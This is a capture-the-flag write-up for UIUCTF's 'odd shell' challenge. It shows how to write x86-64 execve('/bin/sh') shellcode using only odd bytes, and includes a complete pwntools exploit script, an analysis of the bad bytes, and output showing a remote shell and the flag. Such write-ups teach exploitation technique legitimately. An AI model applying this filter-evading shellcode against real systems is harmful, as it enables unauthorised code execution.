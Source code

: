 # odd shell

## description

O ho! You found me! I have a display of oddities available to you! ``$ nc odd-shell.chal.uiuc.tf 1337``
author: Surg

## solution

The challenge binary accepts only odd byte shellcode

```
000012f6          if ((((uint32_t)*(int8_t*)((char*)rax + var_18)) & 1) == 0)
000012f4          {
000012f6              break;
000012f6          }
0000130e          var_18 = (var_18 + 1);
0000130e      }
000012ff      puts("Invalid Character");
```

This presents a problem for a standard ``shellcraft.sh()``, which contains 25 even bytes in the shellcode

```
└─# python3 test.py 
[*] ----------------------------
[*] Finding Bad Bytes in Shellcode:
[!]     Bad Byte: 0x6a
[!]     Bad Byte: 0x68
[!]     Bad Byte: 0x48
[!]     Bad Byte: 0xb8
[!]     Bad Byte: 0x62
[!]     Bad Byte: 0x6e
[!]     Bad Byte: 0x50
[!]     Bad Byte: 0x48
[!]     Bad Byte: 0x68
[!]     Bad Byte: 0x72
[!]     Bad Byte: 0x34
[!]     Bad Byte: 0x24
[!]     Bad Byte: 0xf6
[!]     Bad Byte: 0x56
[!]     Bad Byte: 0x6a
[!]     Bad Byte: 0x8
[!]     Bad Byte: 0x5e
[!]     Bad Byte: 0x48
[!]     Bad Byte: 0xe6
[!]     Bad Byte: 0x56
[!]     Bad Byte: 0x48
[!]     Bad Byte: 0xe6
[!]     Bad Byte: 0xd2
[!]     Bad Byte: 0x6a
[!]     Bad Byte: 0x58
[*] ----------------------------
[*] Total Violations: 25
[*] ----------------------------
[*]    0:   6a 68                   push   0x68
       2:   48 b8 2f 62 69 6e 2f 2f 2f 73   movabs rax, 0x732f2f2f6e69622f
       c:   50                      push   rax
       d:   48 89 e7                mov    rdi, rsp
      10:   68 72 69 01 01          push   0x1016972
      15:   81 34 24 01 01 01 01    xor    DWORD PTR [rsp], 0x1010101
      1c:   31 f6                   xor    esi, esi
      1e:   56                      push   rsi
      1f:   6a 08                   push   0x8
      21:   5e                      pop    rsi
      22:   48 01 e6                add    rsi, rsp
      25:   56                      push   rsi
      26:   48 89 e6                mov    rsi, rsp
      29:   31 d2                   xor    edx, edx
      2b:   6a 3b                   push   0x3b
      2d:   58                      pop    rax
      2e:   0f 05                   syscall
```
However, we make some modifications to the shellcode and remove all the even bytes. Interestingly, we learned that the ``[mov | xor | add | push | xchg] r[9|11|13]`` are mostly odd byte instructions. Other than that, the hardest part was using an ``xor`` and ``add`` to remove the even bytes from the ``/bin/sh`` string.

```python
    shell = asm("""
       /* push 0x68 */
       mov r15b, 0x35
       add r15, 0x33
       push r15

       /* push 0x732f2f2f6e69622f */
       mov r11, ((0x732f2f2f6e69622f-0xffeffff)^0x01010101)
       xor r11, 0x01010101
       add r11, (0xffeffff)/2
       add r11, (0xffeffff)/2
       add r11, 0x1
       push r11

       /* rdi = rsp */
       xchg r9, rsp
       xchg r9, rdi

       /* rsi = 0x0 */
       xor r13, r13
       xchg r13, rsi
     
       /* rdx = 0x0 */
       xor r13, r13
       xchg r13, rdx

       /* rax = 0x3b */
       mov r9b, 0x3b
       xchg r9, rax

       /* execve(rdi="/bin/sh",rsi=0x0,rdx=0x0) */
       syscall
    """)
```

Our final solution is here

```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)

gs = '''
break *$rebase(0x1326)
continue
'''


def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('odd-shell.chal.uiuc.tf', 1337)
    else:
        return process(e.path)


def build_odd_shellcode():
    shell = asm("""
       /* push 0x68 */
       mov r15b, 0x35
       add r15, 0x33
       push r15

       /* push 0x732f2f2f6e69622f */
       /*  0x732f2f2f5f686331* /
       /*  0x0000000000010000*/
       mov r11, ((0x732f2f2f6e69622f-0xffeffff)^0x01010101)
       xor r11, 0x01010101
       add r11, (0xffeffff)/2
       add r11, (0xffeffff)/2
       add r11, 0x1
       push r11

       /* rdi = rsp */
       xchg r9, rsp
       xchg r9, rdi

       /* rsi = 0x0 */
       xor r13, r13
       xchg r13, rsi
     
       /* rdx = 0x0 */
       xor r13, r13
       xchg r13, rdx

       /* rax = 0x3b */
       mov r9b, 0x3b
       xchg r9, rax

       /* execve(rdi="/bin/sh",rsi=0x0,rdx=0x0) */
       syscall
    """)
    return shell


shell = build_odd_shellcode()

p = start()
p.recvline(b'Display your oddities:')
p.sendline(shell)
p.interactive()
```

Running it yields the flag

```
python3 test.py BIN=./chal REMOTE
[*] '/root/workspace/uictf/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to odd-shell.chal.uiuc.tf on port 1337: Done
[*] Switching to interactive mode
Display your oddities:
$ cat /flag
uiuctf{5uch_0dd_by4t3s_1n_my_r3g1st3rs!}
```